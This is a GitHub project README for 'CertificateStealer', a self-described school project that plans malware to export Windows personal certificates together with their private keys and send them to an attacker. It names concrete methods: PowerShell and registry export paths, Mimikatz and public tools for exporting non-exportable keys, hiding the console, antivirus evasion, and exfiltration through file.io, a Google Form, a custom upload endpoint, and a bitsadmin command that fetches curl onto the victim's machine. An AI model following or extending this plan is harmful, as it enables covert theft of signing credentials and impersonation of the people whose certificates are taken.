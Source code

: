 # CertificateStealer
This is school Project - learning purpose only !

TIMELINE:
------
The sooner the better ! <br>
I expect a lot of glitches and errors in the process <br>

TO DO:
------
- Cut audio record of project specifications to just this project.      ✅
- Make UML diagrams of program (UseCase diagram, Class diagram).        ❌
- Do research about certificates (storing, extracting, types,...).      ✅
- Make first testing version of program extracting certificates.        ✅
- Debug the first version.                                              ✅
- Rebuild program, upgrade version.                                     ✅
- Add transfering to (google disk, email, server, ....)                 ❌
- Checking/Installing cURL to computer                                  ✅
- Hide console (or show fake information)                               ✅
- Hide code (deobfuscate code).                                         ❌
- Try detecting with different antiviruses.                             ❌
- Wrap the code to some application (make it background process).       ❌
- Final tests.                                                          ❌
- .....


Rewriten audio :
------
- certificates in operating systems (certmgr) - target on Personal certificates
- create malware which exports certificate WITH PRIVATE KEY ! (automaticaly) it can be circumvent by some techniques

minimal:

- automatic export of Personal certificates with PRIVATE KEYs

expanded:
- transport (send) exported(stolen) certificates to hacker (email, google drive, network,...) - try to HIDE it !
- exported certificates protect with password (easiest, widnows, in exporting phase set password) or some other techniques - to not be used by someone else (encrypt canal which we use to send them)

IMPORTANT experience gained after research:
------
Dont use Python (just Mimikatz is good for this job), it can be used but just for calling powershell functions. So instead of python use POWERSHELL ?

Personal certificates are stored in `dir cert:\currentuser\my` , you can list them and then export with easy powershell script, but certificates must have flag "exportable" otherwise they canot be exported with this method. In the other words certificates marked as NonExportable canot be exported through powershell function `Export-PfxCertificate`, so we have to use another method.

You can also find certificates in `%SystemDrive%\Documents and Settings\All Users\Application Data\Microsoft\Crypto\RSA\MachineKeys` and in registry `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\My\Certificates`, from registry you can export it and then on another computer modify registry to import certificate, but it canot be use to signing. It is possible to repair these imports with poweshell command `certutil -repairstore my <certificate-fingerprint>` - *NOT TESTED*.

Because we want export private keys too, we can use `Mimikatz` for exporting certificates with private keys, but it is detected by antiviruses.

So second option is to dump the private key from memory of running computer by ourself. There is one project on github which already did it (<b>just WIN7 and lower</b>) [github](https://github.com/luipir/ExportNotExportablePrivateKey) + for corectly working we need to get [vcredist_x86_2010.exe](https://www.microsoft.com/en-us/download/details.aspx?id=26999) for compiling `exportrsa/Release/exportrsa.exe`.

+ TESTED, worked + exported certificate is secured with password. - ideal state

❗❗❗

Windows 10 version of Exporting non exportable certificate: [github](https://github.com/iSECPartners/jailbreak/tree/master)

Need to check code and use just what we need + wrap for more functions. ✅

+ TESTED                                                                ✅
+ Rewritten to just needed functions (*trymyown* folder)                ✅
+ next follow TO DO list.


Transfering certificates:
------
- Upload on https://www.file.io/ (file gets auto delete after one download)
- Then copy share link and write it in google forms: https://forms.gle/QSG9oaR2XfSXptkAA
- And just Send form :) - it should work anonymously without login.
- http://leteckaposta.cz/ (30 days then remove)
- interacting with site with lib: libcurl (curl) *working* with my own domain and PHP file upload script on it. (need to handle how to get CURL on victims computer to be able to use it....) Win10 and laters should default have it. 

### Download cURL with cmd line:

- `bitsadmin /transfer curlDownloadJob /download /priority high https://curl.se/windows/dl-8.1.1_1/curl-8.1.1_1-win64-mingw.zip C:\Users\user\Download\curl.zip`
- extract to folder in system
- add to PATH `setx /M PATH "%PATH%;C:\curl"` (need admin rights not cleaver, must be run as ADMIN)
- reopen cmd and it can be used :)

